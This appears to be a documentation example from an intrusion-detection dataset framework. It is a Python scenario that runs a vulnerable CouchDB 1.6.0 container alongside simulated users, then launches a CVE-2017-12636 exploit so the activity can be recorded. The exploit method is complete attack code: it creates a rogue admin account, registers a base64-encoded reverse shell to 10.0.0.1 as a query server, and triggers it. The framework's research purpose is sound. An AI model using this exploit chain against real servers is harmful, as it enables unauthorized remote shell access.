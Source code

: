 Cookbook/Examples
*****************


This example code simulate a CouchDB Version 1.6.0 instance which is vulnerable to CVE-2017-12636.

More information on this environment can be found here: Vulhub_

.. _Vulhub: https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12636

.. code-block:: python

   import requests
   import sys
   import json
   import base64
   import random

   from cloudant.client import Cloudant
   from requests.auth import HTTPBasicAuth
   from lid_ds.core import Scenario
   from lid_ds.sim import Behaviour

   warmt = 15
   rect = 120

   min_user_count = 10
   max_user_count = 25
   user_count = random.randint(min_user_count, max_user_count)

   total_duration = warmt+rect
   warmup_time = warmt
   exploit_time = random.randint(int(rect * .3), int(rect * .8))

   class CVE_2017_12636(Scenario):
       def exploit(self, container):
           target = 'http://localhost:5984'
           command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
           version = 1

           session = requests.session()
           session.headers = {
               'Content-Type': 'application/json'
           }
           # session.proxies = {
           #     'http': 'http://127.0.0.1:8085'
           # }
           session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
               "type": "user",
               "name": "wooyun",
               "roles": ["_admin"],
               "roles": [],
               "password": "wooyun"
           }''')

           session.auth = HTTPBasicAuth('wooyun', 'wooyun')

           command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
           if version == 1:
               session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
           else:
               host = session.get(target + '/_membership').json()['all_nodes'][0]
               session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

           session.put(target + '/wooyun')
           session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

           if version == 1:
               session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
           else:
               session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
       def wait_for_availability(self, container):
           try:
               requests.get('http://localhost:5984')
           except Exception:
               return False
           print('CouchDB Container is up')
           return True

   class CouchDBUser(Behaviour):
       def __init__(self, host, port, uname, passwd, total_duration):
           super().__init__([], total_duration)
           self.host = host
           self.port = port
           self.uname = uname
           self.passwd = passwd
           self.actions.append(self._init_normal)
           for wait_time in self.wait_times[1:]:
               self.actions.append(self.do_normal)

       def _init_normal(self):
           try:
               self.client = Cloudant(self.uname, self.passwd, url='{}:{}'.format(self.host, self.port))
               self.session = self.client.session()
           except:
               pass

       def do_normal(self):
           try:
               self.client.create_database('hellodb')
           except Exception as Error:
               pass

   behaviours = []
   for i in range(user_count):
       duration = random.random() * total_duration
       behaviours.append(CouchDBUser("http://localhost", "5984", "wooyun", "wooyun", total_duration * (i/user_count)))

   scenario = CVE_2017_12636(
           'vulhub/couchdb:1.6.0',
           port_mapping={
               '5984/tcp':5984
           },
           warmup_time=warmup_time,
           recording_time=(total_duration-warmup_time),
           behaviours=behaviours,
           exploit_start_time=exploit_time # Comment this line if you don't want the exploit to be executed
       )
   scenario()
